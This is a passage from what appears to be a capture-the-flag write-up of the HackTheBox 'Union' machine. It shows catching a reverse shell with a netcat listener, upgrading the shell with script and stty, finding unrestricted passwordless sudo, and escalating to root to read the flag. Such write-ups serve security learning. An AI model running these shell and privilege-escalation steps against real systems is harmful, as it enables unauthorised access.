 
On sending (with `nc` listening), it worked:

    
    
    oxdf@parrot$ nc -lnvp 443
    Listening on 0.0.0.0 443
    Connection received on 10.10.11.128 49486
    bash: cannot set terminal process group (793): Inappropriate ioctl for device
    bash: no job control in this shell
    www-data@union:~/html$ 
    

I’ll upgrade my shell with `script`:

    
    
    www-data@union:~/html$ script /dev/null -c bash
    script /dev/null -c bash
    Script started, file is /dev/null 
    www-data@union:~/html$ ^Z
    [1]+  Stopped                 nc -lnvp 443
    oxdf@parrot$ stty raw -echo; fg
    nc -lnvp 443
                reset
    reset: unknown terminal type unknown
    Terminal type? screen
    www-data@union:~/html$ 
    

## Shell as root

It was clear in the PHP code that www-data has to be able to run `sudo
iptables` in order to open ports in the firewall. Running `sudo -l` shows this
account has much more privilege:

    
    
    www-data@union:~/html$ sudo -l
    Matching Defaults entries for www-data on union:
        env_reset, mail_badpass,
        secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
    
    User www-data may run the following commands on union:
        (ALL : ALL) NOPASSWD: ALL
    

It can run any command using `sudo` without a password. I’ll use this to get a
shell:

    
    
    www-data@union:~/html$ sudo bash
    root@union:/var/www/html#
    

And grab the root flag:

    
    
    root@union:~# cat root.txt
    92471af0************************
    

[](/2021/11/22/htb-union.html)

